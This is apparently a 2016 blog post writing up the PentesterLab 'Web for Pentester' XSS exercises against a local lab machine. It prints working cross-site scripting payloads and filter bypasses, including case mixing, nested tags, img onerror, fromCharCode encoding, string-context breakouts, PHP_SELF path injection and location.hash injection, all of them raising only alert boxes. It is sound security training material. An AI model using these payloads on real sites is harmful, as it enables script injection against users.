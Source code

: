 ```yaml
---
layout:     post
title:      "Web for Pentester"
subtitle:   "XSS Write-Up"
date:       2016-09-01 6:00:00
author:     "W3ndige"
header-img: "img/cross-site-scripting-header.jpg"
category: Write-Ups
---
```


<p>Today we're going to continue our journey through the word of web application security - more accurately XSS exercises from <a href="https://pentesterlab.com/">PentesterLab</a>. It's great way to practice what we have learned so far and also - good challenge. Let's jump into the first one!</p>

<h3>Exercise 1</h3>

<p>Here we have a very basic example of Cross Site Scripting where you have to change the variable that is visible in the URL (which is our example is <i>name=hacker</i>) into the alert script that will allow us to see whether if it works. </p>

{% highlight html %}
http://192.168.0.12/xss/example1.php?name=<script>alert("Xss")</script>
{% endhighlight %}

![exercise-1](/img/xss-exercise/exercise-1.png){:class="img-responsive"}

<p>Great, it works perfectly, let's move to the next one!</p>

<h3>Exercise 2</h3>
<p>Firstly I wanted to try whether the method from the previous one works but as I suspected it didn't. What we got after entering script was this source code. </p>

{% highlight html %}
<div class="container">
Hello
alert("Xss")
{% endhighlight %}

<p>It may be somehow filtering our input - maybe changing it to uppercase will help us? </p>   

{% highlight html %}
http://192.168.0.12/xss/example2.php?name=<sCript>alert("Xss")</sCript>
{% endhighlight %}

<p>Great! It works and we've bypassed the filter. Let's move on to the next one! </p>

<h3>Exercise 3</h3>

<p>This one is a little harder - it doesn't allow <b>script</b> or even <b>sCript</b> so we have to try something else. From what I learned about methods to bypass filtering it may be possible to use this simple trick. </p>

{% highlight html %}
http://192.168.0.12/xss/example3.php?name=<scr<script>ipt>alert("Xss")</scr</script>ipt>
{% endhighlight %}

<p>If you don't know how this works - the filter firstly looks for <i>script</i> tag, deletes it, and then sends the result. But after taking out the script two other parts <b>scr</b> and <b>ipt</b> will merge into one creating our payload. </p>

<h3>Exercise 4</h3>

<p>Here it looks like more advanced version of filter, it completely takes out the word script and when the request matches script, it will stop. So what options do we have to bypass it? We can put <b>img</b> tag with some attributes allowing us to create a paylod. Onmouseover will be an excellent example but you can use any other you will think that will work. </p>

{% highlight html %}
http://192.168.0.12/xss/example4.php?name=<img src="blabla" onmouseover="alert('XSS')"></img>
{% endhighlight %}

<p>It will even better work with <b>onerror</b> since it will execute automatically when the page loads. </p>

{% highlight html %}
http://192.168.0.12/xss/example4.php?name=<img src="blabla" onerror="alert('XSS')"></img>
{% endhighlight %}

<h3>Exercise 5</h3>

<p>This one is a little trickier - it allows <b>script</b> tags but doesn't allow <b>alert</b> function. How can we make it alert something without actually typing it? We can translate this into the ASCII characters. </p>

{% highlight html %}
alert("XSS") = 097 108 101 114 116 040 034 088 083 083 034 041
{% endhighlight %}

<p>Which after small redesign will result in actually working XSS!</p>

{% highlight html %}
http://192.168.0.12/xss/example5.php?name=<script>eval(String.fromCharCode(97,108,101,114,116,40,34,88,83,83,34,41))</script>
{% endhighlight %}

<h3>Exercise 6</h3>

<p>This one is a little different. After looking into the source code (which you should always do at the beginning) we get this small JavaScript code. </p>

{% highlight html %}
Hello
<script>
	var $a= "hacker";
</script>
{% endhighlight %}

<p>Vaule of $a changes everytime we enter something different in <b>name=</b> field. We can try to manipulate this script into running alert function. Firstly I add <b>"</b> character to indicate that text is before this quotiation mark. Then let's add <b>;</b> as it's always used in JavaScript at the end of a line. After that I'm ready to add <b>alert('XSS')</b> but it still won't work because of the quotiation mark at the end of the input so let's try commenting it out with <b>//</b>. And it works!</p>

{% highlight html %}
http://192.168.0.12/xss/example6.php?name=me";alert('XSS')//
{% endhighlight %}

<h3>Exercise 7</h3>

<p>Here w're dealing with similar challenge as in the previous one. </p>
{% highlight html %}
Hello
<script>
	var $a= 'hacker';
</script>
{% endhighlight %}

<p>Using the previous strategy I manage to get the XSS alert working. </p>
{% highlight html %}
http://192.168.0.12/xss/example7.php?name=hacker';alert('XSS');//
{% endhighlight %}

<h3>Exercise 8</h3>
<p>Hmmm... We've got the input field that will not allow any of our XSS tricks. I actually had no idea how to attack this example so I checked out hints provided by PentesterLab. Let's take a look at them. </p>

<p><i>Here, the value echoed back in the page is correctly encoded. However, there is still a XSS vulnerability in this page. To build the form, the developer used and trusted PHP_SELF which is the path provided by the user. It’s possible to manipulate the path of the application in order to:</i></p>
<ol>
<li><i>call the current page (however you will get an HTTP 404 page);</i></li>
<li><i>get a XSS payload in the page.</i></li>
</ol>
<p><i>This can be done because the current configuration of the server will call /xss/example8.php when any URL matching /xss/example8.php/... is accessed. You can simply get your payload inside the page by accessing /xss/example8.php/[XSS_PAYLOAD]. Now that you know where to inject your payload, you will need to adapt it to get it to work and get the famous alert box.</i></p>

<p>Wow, I haven't thought about that. Let's see what happens if we simply add it <b>/xss/example8.php/[XSS_PAYLOAD]</b> like in here. </p>

{% highlight html %}
http://192.168.0.12/xss/example8.php/<script>alert("XSS")</script>
{% endhighlight %}

<p>But it still doesn't work. We have to somehow tweak it into the working version. </p>

{% highlight html %}
<form action="/xss/example8.php/<script>alert("XSS")</script>" method="POST">
  Your name:<input type="text" name="name" />
  <input type="submit" name="submit"/>
{% endhighlight %}

<p>If we take a look at it a little closer we can see that if we add <b>"></b> after the example8.php it will close the path and allow script to execute. </p>

{% highlight html %}
http://192.168.0.12/xss/example8.php/"><script>alert("XSS")</script>
{% endhighlight %}

<p>To the last one!</p>

<h3>Exercise 9</h3>
<p>By looking at the source code it reveals to us that the script is simply executing everything after the hash string.</p>
{% highlight html %}
<script>
    document.write(location.hash.substring(1));
</script>
{% endhighlight %}
<p>Solution will look like this. I don't know why but it worked for me only in Chrome browser, not in Firefox. Luckily we managed to complete this set of exercises. </p>
{% highlight html %}
http://192.168.0.12/xss/example9.php#<script>alert("XSs")</script>
{% endhighlight %}

<p>Thanks for tuning in! It was great challenge, and I'm sure to complete other exercise on Web for Pentester ISO. Hopefully there will be more XSS challenges as I'm really enjoying them. Stay updated for more and remember... </p>
<p>~ Stay safe!</p>

